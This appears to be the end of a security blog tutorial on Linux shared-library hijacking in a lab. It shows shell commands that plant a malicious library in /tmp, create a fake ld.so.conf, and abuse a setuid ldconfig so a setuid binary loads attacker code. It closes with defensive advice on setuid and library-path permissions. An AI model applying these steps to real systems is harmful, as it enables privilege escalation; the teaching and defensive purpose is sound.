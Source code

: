 Now we execute the application...
```bash
boiteaklou@LAB-Blog:~$ /usr/bin/myexec
Welcome to my amazing application!
I'm the bad library
```

...And the exploit works just fine!

#### Alternative to /etc/ld.so.conf

What I just showed you is working, but actually, there's even simpler. <span style="color:red">The configuration file including **/tmp** is not mandatory since we have the setuid bit set on `ldconfig`</span>. Indeed, `ldconfig -f` allows us to use a different configuration file from the existing **/etc/ld.so.conf**.

What we have to do is pretty simple, follow the example.

We create our fake **ld.so.conf**:
```bash
boiteaklou@LAB-Blog:/tmp$ echo "include /tmp/conf/*" > fake.ld.so.conf
```

Then, we add a configuration file to the location indicated by **fake.ld.so.conf**:
```bash
boiteaklou@LAB-Blog:/tmp$ echo "/tmp" > conf/evil.conf
```

Finally, we execute `ldconfig` with the -f option:
```bash
boiteaklou@LAB-Blog:/tmp$ ldconfig -f fake.ld.so.conf
```

And we enjoy the result:
```bash
boiteaklou@LAB-Blog:/tmp$ ldd /usr/bin/myexec
	linux-gate.so.1 =>  (0xb7761000)
	libcustom.so => /tmp/libcustom.so (0xb7754000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb759e000)
	/lib/ld-linux.so.2 (0xb7762000)
boiteaklou@LAB-Blog:/tmp$ /usr/bin/myexec
Welcome to my amazing application!
I'm the bad library
```

Even more straight-forward! :smile:


## How can we defend against this?

As a general principle, **DO NOT set the setuid bit** on a program if you don't asbolutely control every aspect of its execution, a lot of them can be used in a way that allows privilege escalations.

Another fundamental aspect that shouldn't be left behind is the **management of user permissions**. As we've seen earlier, allowing a user to write inside /usr/lib can lead to severe security issues. If you're a system administrator, ensure that low-privileged users can't write to:
* **/usr/lib** and **/lib**
* Locations specified by **/etc/ld.so.conf**
* If **LD_LIBRARY_PATH** is set by default on your system, the user shouldn't be able to write at the location specified by this variable.

More generally, ensure that every action performed by users are executed with the lowest privileges.

<p id="signature">BoiteAKlou :hammer:</p>

